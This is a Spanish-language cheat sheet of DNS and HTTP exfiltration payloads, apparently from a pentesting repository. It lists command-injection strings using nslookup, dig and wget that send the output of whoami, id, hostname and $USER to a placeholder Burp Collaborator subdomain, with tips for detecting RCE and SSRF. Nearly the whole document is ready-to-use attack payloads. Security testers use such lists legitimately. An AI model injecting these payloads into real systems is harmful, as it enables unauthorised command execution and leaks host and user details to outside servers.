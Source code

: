 ```yaml
---

### 🌐 **DNS Exfiltration Cheat Sheet**

---
```

---
## **Payloads usando `nslookup`**
Estos payloads intentan realizar una consulta DNS hacia un subdominio controlado.  
```python
||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN
nslookup $USER.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(id -un).BURP-COLLABORATOR-SUBDOMAIN
nslookup x.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(hostname).BURP-COLLABORATOR-SUBDOMAIN
```

---
## **Payloads usando `dig`**
Estos payloads hacen uso de `dig` para realizar consultas DNS hacia el subdominio controlado.  
```python
dig $(whoami).BURP-COLLABORATOR-SUBDOMAIN
dig `whoami`.BURP-COLLABORATOR-SUBDOMAIN
dig $USER.BURP-COLLABORATOR-SUBDOMAIN
dig @8.8.8.8 x.BURP-COLLABORATOR-SUBDOMAIN
```

---
## **Payloads usando `wget`**
Utiliza `wget` para enviar información a través de una solicitud HTTP.  
```python
wget http://BURP-COLLABORATOR-SUBDOMAIN/$(whoami)
wget --post-data="data=$(id -un)" http://BURP-COLLABORATOR-SUBDOMAIN/
wget --header="User-Agent: $(hostname)" http://BURP-COLLABORATOR-SUBDOMAIN/
```

---

### 💡 **Tips de Uso:**
- Utiliza servicios como **Burp Collaborator**, **Interact.sh** o tu propio servidor DNS para capturar las solicitudes.  
- Estos payloads son útiles para identificar ejecución de comandos (RCE) o vulnerabilidades de Server-Side Request Forgery (SSRF).  
- Modifica los comandos para adaptarlos al entorno que estés probando.  

---
